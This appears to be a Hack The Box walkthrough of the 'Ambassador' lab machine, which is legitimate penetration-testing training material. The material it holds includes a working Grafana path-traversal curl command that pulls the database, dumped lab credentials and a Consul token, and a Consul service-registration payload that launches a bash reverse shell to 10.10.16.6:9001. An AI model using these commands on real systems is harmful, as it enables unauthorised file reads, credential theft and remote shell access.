 Hack the box Ambassador

Initial Scan

PORT 80 running a hugo site which a static site generater framework   
PORT 3000 running Grafana. A grafical monitering tool   
PORT 3306 running mysql   

unauthenticated LFI vuln in grafana version 3.2.0   
Referance [https://www.exploit-db.com/exploits/50581]( https://www.exploit-db.com/exploits/50581)   
More about LFI [https://j0vsec.com/post/cve-2021-43798/](https://j0vsec.com/post/cve-2021-43798/)   

Exploit LFI using a python script 
Default config of grafana is using sqlite3 and store the file on /var/lib/grafana/grafana.db

Downloading Grafana.db

```bash
curl --path-as-is "http://10.129.208.1:3000/public/plugins/state-timeline/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -O grafana.db
```

Found some creds
```bash
Username:grafana
password:dontStandSoCloseToMe63221!
Database:grafana
```
Grafana login cred
```bash
username:admin
password:dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069
salt:0X27trve2u
````
User creds
```bash
developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==:anEnglishManInNewYork027468
```
Privilege escalation

Found token from local git commit of my-app in opt dir
```bash
ACL token:bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Making exploit

Referance API doc

[https://www.consul.io/api-docs/agent/service](https://www.consul.io/api-docs/agent/service)   
Referance about default port [https://stackoverflow.com/questions/30684262/different-ports-used-by-consul](https://stackoverflow.com/questions/30684262/different-ports-used-by-consul)   
```bash
curl http://127.0.0.1:8500/v1/agent/services -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5"
curl -X PUT http://127.0.0.1:8500/v1/agent/services/register -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --data @rce.json
```
rce.json
```json
{
  "ID": "rce3",
  "Name": "rce3",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "Args": ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.6/9001 0>&1"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```